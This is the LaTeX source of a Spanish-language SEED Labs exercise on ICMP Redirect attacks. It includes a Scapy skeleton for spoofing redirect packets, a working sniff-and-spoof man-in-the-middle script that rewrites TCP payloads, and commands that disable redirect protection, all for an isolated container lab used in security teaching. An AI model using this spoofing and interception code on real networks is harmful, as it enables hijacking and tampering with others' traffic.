%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}
\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}






\lhead{\bfseries SEED Labs -- Laboratorio de ICMP Redirect}
\newcommand{\ipFigs}{./Figs}


\begin{document}



\begin{center}
{\LARGE Laboratorio de ICMP Redirect}
\end{center}

\seedlabcopyright{2020}


% *******************************************
% SECTION
% ******************************************* 
\section{Descripción}

Una ICMP Redirect es un mensaje de error enviado por un router a quien envía un paquete IP. Las redirecciones son usadas por un router cuando este cree que un paquete está siendo ruteado de forma errónea y le quire informar a quien lo está enviando que debería de usar un router diferente para los paquetes que se envién de ahora en más al destino que se está usando. Un ICMP Redirect puede ser usado por atacantes para cambiar el enrutamiento de una determinada víctima.

El objetivo de este laboratorio es lanzar un ataque de ICMP Redirect sobre un una víctima, tal que los paquetes enviados por la víctima hacia \texttt{192.168.60.5}, sea usado por un contenedor router (\texttt{10.9.0.111}) malicioso.
Dado que el router malicioso es controlado por el atacante, el atacante puede interceptar paquetes, cambiarlos y enviarlos modificados. Este es una forma de ataque Man-In-The-Middle (MITM).

Este laboratorio cubre los siguientes tópicos:


\begin{itemize}[noitemsep]
\item Protocolos IP y ICMP
\item Ataque ICMP Redirect
\item Routing 
\end{itemize}


\paragraph{Videos.}
Para una cobertura más detallada sobre el protocolo IP y ataques en la capa IP puede consultar:

\begin{itemize}
\item Sección 4 del curso de SEED en Udemy, \seedisvideo
\end{itemize}


\paragraph{Entorno de Laboratorio.} \seedenvironmentC



% *******************************************
% SECTION
% *******************************************
\section{Configuración del entorno usando Contenedores}

En este laboratorio usaremos varias máquinas. La configuración del entorno del laboratorio se ilustra en la Figura \ref{ip:fig:labsetup}.
Para este laboratorio usaremos contenedores.

\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{./Figs/TwoLANs_ICMP.pdf}
\end{center}
\caption{Configuración del entorno}
\label{ip:fig:labsetup}
\end{figure}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setup del Contenedor y sus Comandos}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para empezar a preparar el contenedor, deberá descargarse el archivo \texttt{Labsetup.zip} ubicado en el laboratorio correspondiente dentro del sitio web oficial y copiarlo dentro de la Máquina Virtual prevista por SEED. Una vez descargado deberá descomprimirlo y entrar dentro del directorio \texttt{Labsetup} donde encontrará el archivo \texttt{docker-compose.yml} que servirá para setear el entorno de laboratorio. Para una información más detallada sobre el archivo \texttt{Dockerfile} y otros archivos relacionados, puede encontrarla dentro del Manual de Usuario del laboratorio en uso, en el sitio web oficial de SEED.

Si esta es su primera experiencia haciendo el setup del laboratorio usando contenedores es recomendable que lea el manual anteriormente mencionado.

A continuación, se muestran los comandos más usados en Docker y Compose.
Debido a que estos comandos serán usados con mucha frecuencia, hemos creados un conjunto de alias para los mismos, ubicados en del archivo \texttt{.bashrc} dentro de la Máquina Virtual provista por SEED (Ubuntu 20.04)

\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


Dado que todos los contenedores estarán corriendo en un segundo plano. Necesitamos correr comandos para interactuar con los mismos, una de las operaciones fundamentales es obtener una shell en el contenedor. 
Para este propósito usaremos \texttt{"docker ps"} para encontrar el ID del contenedor deseado y ingresaremos \texttt{"docker exec"} para correr una shell en ese contenedor.
Hemos creado un alias para ello dentro del archivo \texttt{.bashrc}

\begin{lstlisting}
$ dockps        // Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   // Alias for: docker exec -it <id> /bin/bash

// The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

// Note: If a docker command requires a container ID, you do not need to 
//       type the entire ID string. Typing the first few characters will 
//       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}

En caso de problemas configurando el entorno, por favor consulte la sección ``Common Problems'' en el manual ofrecido por SEED. 


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Sobre el Contenedor de Ataque}

Para este laboratorio podemos usar tanto una Máquina Virtual como un contenedor como máquina de ataque. Si observa el archivo Docker Compose, verá que el contenedor de ataque está configurado de forma diferente al resto de los contenedores. Las diferencias son las siguientes:

\begin{itemize}
\item \textit{Directorio Compartido.} Cuando usemos el contenedor del atacante para realizar los ataques, necesitamos poner el código de ataque dentro del contenedor.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in containers, 
because we can use our favorite editors.
In order for the VM and container to share files, 
we have created a shared folder between the VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\item \textit{Modo Privilegiado.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Para poder modificar parámetros del kernel en tiempo de ejecución (usando  \texttt{sysctl}), tal como IP forwarding, el contenedor debe de ser privilegiado.
Esto se consigue incluyendo la siguiente entrada dentro del archivo Docker compose del contenedor.

\begin{lstlisting}
privileged: true
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\end{itemize}


% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 1: Lanzando el Ataque ICMP Redirect}

En los sistemas operativos Ubuntu, existe una protección contra ataques ICMP Redirect. En el archivo Compose, hemos desactivado esta protección, haciendo que el contenedor de la víctima acepte mensajes ICMP Redirect.

\begin{lstlisting}
// In docker-compose.yml
sysctls:
      - net.ipv4.conf.all.accept_redirects=1

// To turn the protection on, set its value to 0
# sysctl net.ipv4.conf.all.accept_redirects=0
\end{lstlisting}

Para esta tarea, atacaremos el contenedor víctima desde nuestro contenedor de ataque. En la configuración actual la víctima usara el contenedor router (\texttt{192.168.60.11}) como router de la red \texttt{192.168.60.0/24}. Al ejecutar \texttt{ip route} dentro del contenedor de la víctima, observaremos algo como esto:

\begin{lstlisting}
# ip route
default via 10.9.0.1 dev eth0 
10.9.0.0/24 dev eth0 proto kernel scope link src 10.9.0.5 
192.168.60.0/24 via (*@\textbf{10.9.0.11}@*) dev eth0
\end{lstlisting}
 

\paragraph{Código Base.} Se ha provisto un código base que se muestra a continuación con los paramétros esenciales que deberán de ser completados. Los estudiantes deberán de llenarlos con los valores apropiados, estos valores a completar son demarcados por \texttt{@@@@}. 


\begin{lstlisting}[language=python]
#!/usr/bin/python3

from scapy.all import *

ip = IP(src = @@@@,  dst = @@@@)
icmp = ICMP(type=@@@@, code=@@@@)
icmp.gw = @@@@

# The enclosed IP packet should be the one that 
# triggers the redirect message. 
ip2 = IP(src = @@@@, dst = @@@@)
send(ip/icmp/ip2/ICMP());
\end{lstlisting}
 

\paragraph{Verificación.}
Los mensajes ICMP Redirect no afectan la tabla de routing; afectan a la caché del routing. Las entradas en la caché de routing sobreescriben aquellas que se encuentran en la tabla de routing hasta que cada una de estas expire. Para mostrar y limpiar el contenido de esta caché, podemos usar los siguientes comandos:

\begin{lstlisting}
// Display the routing cache 
# ip route show cache
192.168.60.5 via 10.9.0.111 dev eth0
    cache <redirected> expires 296sec

// Clean the routing cache
# ip route flush cache
\end{lstlisting}

Por favor haga un traceroute de la máquina víctima y vea si los paquetes son re-enrutados o no.

\begin{lstlisting}
# mtr -n 192.168.60.5
\end{lstlisting}


\paragraph{Un hecho extraño.} Mientras se fue desarrollando este laboratorio, hemos observado un hecho extraño en los entornos de los contenedores. Este hecho no se presenta si la víctima es la Máquina Virtual, en lugar del contenedor.
Si spoofeamos los paquetes que se redireccionan pero la máquina víctima no está enviando paquetes ICMP durante el ataque, el ataque no será exitoso.
Más aún, la \texttt{ip} dentro de un paquete de redirección debe de coincidir con el tipo y la dirección ip destino de los paquetes que la víctima está enviando (ICMP para ICMP, UDP para UDP, etc.).

Pareciera ser que el kernel del sistema operativo implementa algún tipo de chequeo de seguridad antes de aceptar paquetes ICMP Redirect.
No se ha podido determinar con exactitud la causa de esto y porque la Máquina Virtual no tiene estas restricciones.
Esta situación es algo que hasta la fecha SEED labs no ha podido solucionar, se alienta a los estudiantes a que nos ayuden a resolver esta cuestión. Recomendamos a los instructores otorgar puntos extras a aquellos estudiantes que hayan podido solucionar este inconveniente.

Antes de encontrar una manera de desactivar este chequeo preventivo y lanzar el ataque, deberíamos de hacer un \texttt{ping} al host \texttt{192.168.60.5} en la máquina víctima.


\paragraph{Preguntas.} Después de que el ataque haya sido exitoso, por favor realice los siguientes experimentos y vea si su ataque sigue funcionando. Por favor explique sus observaciones:

\begin{itemize}
\item Pregunta 1: ¿Puede usar ataques ICMP Redirect para redireccionar en una máquina remota? A saber, la dirección IP asignada en \texttt{icmp.gw} es una computadora que no está en la LAN local. Muestre el resultado de su experimento y explique su observación.


\item Pregunta 2:  ¿Puede usar ataques ICMP Redirect para redireccionar en una máquina que no existe en la misma red? A saber, la dirección IP asignada en \texttt{icmp.gw} es una computadora que puede estar offline o puede no existir. Muestre el resultado de su experimento y explique su observación.


\item Pregunta 3: Si observa en el archivo \texttt{docker-compose.yml}, encontrará las siguientes entradas para el contenedor router malicioso. ¿Cual es el propósito de estas entradas? Por favor modifique los valores a \texttt{1}, realize el ataque nuevamente.
Por favor describa y explique su observación.

\begin{lstlisting}
sysctls:
     - net.ipv4.conf.all.send_redirects=0
     - net.ipv4.conf.default.send_redirects=0
     - net.ipv4.conf.eth0.send_redirects=0
\end{lstlisting}
 
\end{itemize}



% *******************************************
% SECTION
% *******************************************
\section{Tarea 2: Lanzando el Ataque MITM} 

Usando el ataque de ICMP Redirect, podemos lograr que la víctima use nuestro router malicioso (\texttt{10.9.0.111}) como el router para el destino \texttt{192.168.60.5}. Todos los paquetes de la máquina de la víctima hacia este destino serán ruteados por nuestro router malicioso.
Queremos modificar los paquetes de la víctima.

Antes de ejecutar el ataque MITM, debeos de ejecutar un cliente y un servidor TCP usando \texttt{netcat}. Vea los siguientes comandos:

\begin{lstlisting}
On the destination container 192.168.60.5, start the netcat server:
# nc -lp 9090

On the victim container, connect to the server:
# nc 192.168.60.5 9090
\end{lstlisting}


Una vez que se establece la conexión, puede escribir mensajes en la máquina víctima. 
Cada linea de mensajes será colocada en un paquete TCP que será enviado al destino, quién mostrará el mensaje.
Su tarea es reemplazar cada ocurrencia de su nombre dentro del mensaje con una secuencia de letras A. La longitud de la secuencia debería de ser la misma que la longitud de su nombre de lo contrario el número de secuencia TCP se verá corrompido y por ende toda la conexión TCP. Necesita usar su nombre real, de esta forma sabremos que el trabajo fue hecho por ud.


\paragraph{Desactivando IP Forwarding.}
En la configuración que se usa, el IP Forwarding para el router está activado, lo que le permite funcionar como un router y forwardear paquetes. Cuando lanzamos un ataque MITM, debemos de detener el forwardeo de paquetes IP; en vez de esto, interceptaremos el paquete, lo modificaremos y enviaremos un nuevo paquete.
Para hacer esto, necesitamos desactivar el IP Forwarding en el router malicioso.

\begin{lstlisting}
# sysctl net.ipv4.ip_forward=0
\end{lstlisting}


\paragraph{Código MITM.}
Una vez desactivado el IP Forwarding, nuestro programa necesita ser capaz de hacer el forwardeo de los paquetes desde la víctima hacia el objetivo, desde ya todo esto se hace después de modificar los paquetes. Dado que el destino de un paquete no somos nosotros, el kernel no nos lo entregará; simplemente descartará el paquete. Sin embarg, si nuestro programa es un sniffer, podemos obtener el paquete del kernel. Para implementar este ataque MITM usaremos la técnica de sniff-and-spoof.
A continuación brindamos un ejemplo de un programa de sniff-and-spoof que captura paquetes TCP, modifica algunos de sus valores antes de que sean enviados.
Puede encontrar el código dentro de los archivos del laboratorio.

\begin{lstlisting}[language=python, caption={Sample code: \texttt{mitm\_sample.py}}]
#!/usr/bin/env python3
from scapy.all import *

def spoof_pkt(pkt):
   newpkt = IP(bytes(pkt[IP]))
   del(newpkt.chksum)
   del(newpkt[TCP].payload)
   del(newpkt[TCP].chksum)

   if pkt[TCP].payload:
       data = pkt[TCP].payload.load
       print("*** %s, length: %d" % (data, len(data)))

       # Replace a pattern
       newdata = data.replace(b'seedlabs', b'AAAAAAAA')

       send(newpkt/newdata)
   else:
       send(newpkt)

f = 'tcp'
pkt = sniff(iface='eth0', filter=f, prn=spoof_pkt)
\end{lstlisting}

Cabe señalar que el código anterior, captura todo los paquetes TCP, incluído el que es generado por el mismo programa. Eso no es conveniente, y afectará a la performance. Los estudiantes necesitan cambiar el filtro para que el programa no capture sus propios paquetes.

\paragraph{Preguntas.} Después de lograr un ataque exitoso, por favor conteste las siguientes preguntas:

\begin{itemize}
  \item Pregunta 4: En el programa de MITM, ud. sólo necesita captura el tráfico en una sola dirección. Por favor indique cual es esta dirección y explique el porque.

  \item Pregunta 5: En el programa de MITM, cuando ud. captura el tráfico de\texttt{nc} desde A (\texttt{10.9.0.5}), puede usar la dirección IP de A o la dirección MAC en el filtro. Una de estas dos opciones no es la correcta y va a crear un inconveniente, aunque ambas pueden funcionar. Por favor intente ambas y use los resultados de su experimentos para demostrar cual de estas dos opciones en la correcta y explique su conclusión.
\end{itemize}
 



% *******************************************
% SECTION
% ******************************************* 
\section{Informe del Laboratorio}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% *******************************************
\section*{Agradecimientos}

Este documento ha sido traducido al Español por Facundo Fontana




\end{document}



